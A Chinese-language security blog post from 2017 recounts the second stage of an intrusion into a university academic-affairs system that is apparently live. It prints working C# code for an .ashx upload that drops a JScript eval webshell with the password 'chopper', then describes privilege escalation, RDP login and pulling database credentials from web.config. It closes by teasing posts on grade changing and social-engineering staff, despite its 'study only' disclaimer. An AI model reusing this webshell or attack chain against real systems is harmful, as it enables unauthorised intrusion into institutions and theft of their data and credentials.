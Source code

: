```yaml
---
layout: post
title: 某教务系统注入getshell提权一条龙(下)
date: 2017-03-14 11:14:42
comments: true
tags:
	- 安全攻防
---
```


### 前言
><font color="#ff0000">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;**文中提及的部分技术，可能带有一定攻击性，仅供安全学习和教学用途，禁止非法使用！**</font>

### 正文
>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;上篇说道注入到管理员登录密码登录，下面讲介绍如何拿shell提权。<!--more-->

### 漏洞详情
>登录教务系统后，在信息公告栏里面有个教务公告发布，这里可以上传

![](/images/pasted-53.PNG)

![](/images/pasted-53.5.PNG)

>这里对ashx文件没有过滤，所以可以上传一个ashx马来生成aspx一句话

poc:
```C#
<%@ WebHandler Language="C#" Class="Handler" %> 
using System; 
using System.Web; 
using System.IO; 
public class Handler : IHttpHandler { 
    public void ProcessRequest (HttpContext context) { 
        context.Response.ContentType = "text/plain"; 
        string show="<%@ Page Language=\"Jscript\"%><%eval(Request.Item[\"chopper\"],\"unsafe\");%>"; 
        StreamWriter file1= File.CreateText(context.Server.MapPath("root.aspx")); 
        file1.Write(show); 
        file1.Flush(); 
        file1.Close(); 
    } 
    public bool IsReusable { 
        get { 
            return false; 
        } 
    } 
} 
```

>会上传在wbwj目录下

>访问http://***.***.com/wbwj/***.ashx，会在同目录生成一个root.aspx一句话，密码 chopper

>一句话地址，http://***.***.com/wbwj/root.aspx  连接之

![](/images/pasted-54.PNG)

>看下权限,还是挺大的，

![](/images/pasted-55.PNG)

![](/images/pasted-56.PNG)

![](/images/pasted-57.PNG)

> 直接上传神器提权之。

![](/images/pasted-58.PNG)

>3389端口没有改，直接连接。

![](/images/pasted-59.PNG)

![](/images/pasted-60.PNG)

> 在里面翻了半天都没找到数据库，然后看了下端口，本机的1521端口根本没开，而本机和内网另一台机器的1521端口连接着，看来是站库分离了。

![](/images/pasted-61.PNG)

>在站的根目录，web.config文件中，可以看到数据库地址，以及连接数据库的用户名和加密密码

>![](/images/pasted-100.jpg)


### 总结
> 这个是什么教务系统就不多说，用过的一看就知道。
> 有很多高校大学用的这个教务系统，早在去年一晚的时间就发现了50多个高校都存在漏洞，不过都上报给了乌云。
> 后期还会写更多的渗透文章，漫游内网，更改led大屏幕，免费上网，好(gai)好(cheng)学(ji)习，社工辅导员qq微博等等。
>再次提醒：
> **文中提及的部分技术，可能带有一定攻击性，仅供安全学习和教学用途，禁止非法使用！**